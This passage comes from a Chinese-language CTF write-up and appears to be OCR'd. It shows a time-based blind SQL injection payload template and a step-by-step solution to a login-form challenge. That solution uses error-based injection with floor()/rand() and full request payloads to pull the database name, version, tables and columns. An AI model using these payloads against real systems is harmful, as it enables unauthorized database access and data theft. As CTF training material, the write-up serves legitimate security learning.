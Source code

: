 		error_reporting(0);
			<?php
			 // 关闭错误报告
			 error_reporting(0);
			
			 // 报告 runtime 错误
			 error_reporting(E_ERROR | E_WARNING | E_PARSE);
			
			 // 报告所有错误
			 error_reporting(E_ALL);
			
			 // 等同 error_reporting(E_ALL);
			 ini_set("error_reporting", E_ALL);
			
			 // 报告 E_NOTICE 之外的所有错误
			 error_reporting(E_ALL & ~E_NOTICE);
			?> 
		
		payload="11'+(select case when (substring((select flag from flag ) from {0} for 1 )='{1}') then sleep(3) else 1 end ) and '1'='1".format(str(i),str1)

		flag：flag{cdbf14c9551d5be5612f7bb5d2867853}

37. 这是一个神奇的登陆框  
	>150  
	>http://120.24.86.145:9001/sql/  
	>flag格式flag{}

	解答：

		注入的分隔符都用的是单引号‘，这道题特立独行用的是双引号"。
		又发现有报错的回显，于是报错注入：
		一开始使用的updatexml和extractvalue这两个函数来进行的报错注入，后来发现这两个函数的报错注入有缺陷，报错信息的长度不超过32位，对于这道题来说，flag是一个md5摘要，长度正好32位，而又会用到concat函数来连接，就会显示不完全。
		所以这道题的注入还是使用基于floor()和rand() 的报错注入 

		探测用户名：
			http://120.24.86.145:9001/sql/
			admin_name=1" or 1=1%23&admin_passwd=1&submit=GO+GO+GO
		爆数据库信息
			http://120.24.86.145:9001/sql/
			1. 数据库名
			admin_name=AdMiNhEhE&admin_passwd=1" and (select 1 from (select count(*), concat(floor(rand(0)*2),0x23,(database()))x from information_schema.tables group by x )a) and "1" = "1&submit=GO+GO+GO
			admin_name=AdMiNhEhE&admin_passwd=1" and (select 1 from (select count(*), concat(floor(rand(0)*2),0x23,(SELECT schema_name FROM information_schema.SCHEMATA limit 1,2))x from information_schema.tables group by x )a) and "1" ="1&submit=GO+GO+GO
			admin_name=AdMiNhEhE&admin_passwd=1" and (select 1 from (select count(*), concat(floor(rand(0)*2),0x23,(SELECT table_schema FROM information_schema.SCHEMATA limit 1,2))x from information_schema.tables group by x )a) and "1" ="1&submit=GO+GO+GO
			bugkusql1
			2. 数据库版本信息
			admin_name=AdMiNhEhE&admin_passwd=1" and (select 1 from (select count(*), concat(floor(rand(0)*2),0x23,(version()))x from information_schema.tables group by x )a) and "1" = "1&submit=GO+GO+GO
			5.5.34-log
			3. 表名
			admin_name=AdMiNhEhE&admin_passwd=1" and (select 1 from (select count(*), concat(floor(rand(0)*2),0x23,(SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = 'bugkusql1'  limit 1))x from information_schema.tables group by x )a) and "1" = "1&submit=GO+GO+GO
			flag1
			4. 列名
			admin_name=AdMiNhEhE&admin_passwd=1" and (select 1 from (select count(*), concat(floor(rand(0)*2),0x23,(SELECT column_NAME FROM information_schema.columns  WHERE TABLE_SCHEMA = 'bugkusql1' and table_name='flag1'  limit 1))x from information_schema.tables group by x )a) and "1" = "1&submit=GO+GO+GO
			flag1
			5. 列内容